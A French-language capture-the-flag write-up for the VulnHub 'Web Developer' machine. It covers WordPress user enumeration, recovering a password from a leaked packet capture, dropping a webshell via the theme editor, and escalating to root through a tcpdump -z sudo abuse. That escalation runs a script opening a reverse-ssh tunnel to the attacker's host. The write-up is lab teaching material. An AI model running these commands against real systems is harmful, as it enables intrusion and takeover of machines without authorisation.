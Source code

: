 ```yaml
---
title: "Solution du CTF Web Developer de VulnHub"
tags: [CTF,VulnHub]
---
```


Le CTF [Web Developer](https://vulnhub.com/entry/web-developer-1,288/) était simple avec un cheminement qui se fait sans réelle surprise.

La VM dispose d'un port 80 sur lequel on trouve un Wordpress.

Quand on regarde le code source on voit que l'installation est plutôt *stock* avec aucune mention d'un plugin particulier.

`Nmap` avec l'option `--script vuln` est capable d'énumérer les utilisateurs du CMS :

```
Nmap scan report for 192.168.56.208
Host is up (0.00012s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|   /wp-login.php: Possible admin folder
|   /readme.html: Wordpress version: 2 
|   /: WordPress version: 4.9.8
|   /wp-includes/images/rss.png: Wordpress version 2.2 found.
|   /wp-includes/js/jquery/suggest.js: Wordpress version 2.5 found.
|   /wp-includes/images/blank.gif: Wordpress version 2.6 found.
|   /wp-includes/js/comment-reply.js: Wordpress version 2.7 found.
|   /wp-login.php: Wordpress login page.
|   /wp-admin/upgrade.php: Wordpress login page.
|_  /readme.html: Interesting, a readme.
| http-wordpress-users: 
| Username found: webdeveloper
```

`Nuclei` en est tout autant capable :

```
[CVE-2017-5487:usernames] [http] [medium] http://192.168.56.208/?rest_route=/wp/v2/users/ [webdeveloper]
```

J'ai commencé à brute forcer le compte à l'aide de `wpscan` puis j'ai décidé d'énumérer un peu le serveur web, car le login `webdeveloper` peut laisser supposer que quelques fichiers trainent par ci par là.

J'ai ainsi trouvé un dossier nommé `ipdata` qui listait son contenu. On trouvait dedans un fichier `analyze.cap` que j'ai aussitôt ouvert avec `Wireshark`.

Sans surprises on y voit des requêtes HTTP sur le Wordpress. Je scrolle à la recherche d'une requête `POST` et trouve ce que je cherchais :

```http
POST /wordpress/wp-login.php HTTP/1.1
Host: 192.168.1.176
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.1.176/wordpress/wp-login.php?redirect_to=http%3A%2F%2F192.168.1.176%2Fwordpress%2Fwp-admin%2F&reauth=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 152
Cookie: wordpress_test_cookie=WP+Cookie+check
Connection: keep-alive
Upgrade-Insecure-Requests: 1

log=webdeveloper&pwd=Te5eQg%264sBS%21Yr%24%29wf%25%28DcAd&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.1.176%2Fwordpress%2Fwp-admin%2F&testcookie=1
```

Une fois le pass url-décodé, le voici : `Te5eQg&4sBS!Yr$)wf%(DcAd`.

Je peux alors me connecter sur le wordpress via `/wp-admin` puis utiliser l'éditeur de thème pour placer un webshell PHP. Je n'entre pas dans les détails sur la manipulation, mais il faut parfois essayer plusieurs thèmes avant de tomber sur un qui a les bonnes permissions.

Une fois sur le système je récupère les identifiants pour la DB stockés dans `wp-config.php` :

```php
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'webdeveloper');

/** MySQL database password */
define('DB_PASSWORD', 'MasterOfTheUniverse');
```

On s'en doute, le mot de passe permet de se connecter sur le compte Unix du même nom. L'utilisateur a une entrée `sudo` :

```console
webdeveloper@webdeveloper:/var/www/html$ sudo -l
[sudo] password for webdeveloper: 
Matching Defaults entries for webdeveloper on webdeveloper:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webdeveloper may run the following commands on webdeveloper:
    (root) /usr/sbin/tcpdump
```

Il existe un [GTFObin pour tcpdump](https://gtfobins.github.io/gtfobins/tcpdump/) qui exploite l'option `-z` :

```
       -z postrotate-command
              Used  in conjunction with the -C or -G options, this will make tcpdump run " postrotate-command file " where file is the savefile being closed after each rotation. For example, specifying -z
              gzip or -z bzip2 will compress each savefile using gzip or bzip2.

              Note that tcpdump will run the command in parallel to the capture, using the lowest priority so that this doesn't disturb the capture process.

              And in case you would like to use a command that itself takes flags or different arguments, you can always write a shell script that will take the savefile name as the  only  argument,  make
              the flags & arguments arrangements and execute the command that you want.
```

J'ai d'abord mis un `reverse-ssh` en écoute sur ma machine :

```bash
reverse-sshx64 -l -p 9999 -v
```

Puis j'ai créé le script à passer à `tcpdump` :

```console
webdeveloper@webdeveloper:/tmp$ echo "/tmp/reverse-sshx64 -p 9999 192.168.56.1" > yolo
webdeveloper@webdeveloper:/tmp$ chmod +x yolo
webdeveloper@webdeveloper:/tmp$ sudo /usr/sbin/tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z /tmp/yolo
tcpdump: listening on lo, link-type EN10MB (Ethernet), capture size 262144 bytes
Maximum file limit reached: 1
1 packet captured
32 packets received by filter
0 packets dropped by kernel
```

J'obtiens alors une connexion sur `reverse-ssh` : un tunnel a été établi et je peux accéder au système via mon port 8888.

```
2023/05/18 10:22:37 Successful authentication with password from reverse@192.168.56.208:46320
2023/05/18 10:22:37 Attempt to bind at 127.0.0.1:8888 granted
2023/05/18 10:22:37 New connection from 192.168.56.208:46320: root on webdeveloper reachable via 127.0.0.1:8888
```

Et voilà :

```console
$ ssh -p 8888 127.0.0.1
devloop@127.0.0.1's password: 
root@webdeveloper:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@webdeveloper:/tmp# cd /root
root@webdeveloper:/root# ls
flag.txt
root@webdeveloper:/root# cat flag.txt 
Congratulations here is youre flag:
cba045a5a4f26f1cd8d7be9a5c2b1b34f6c5d290
```
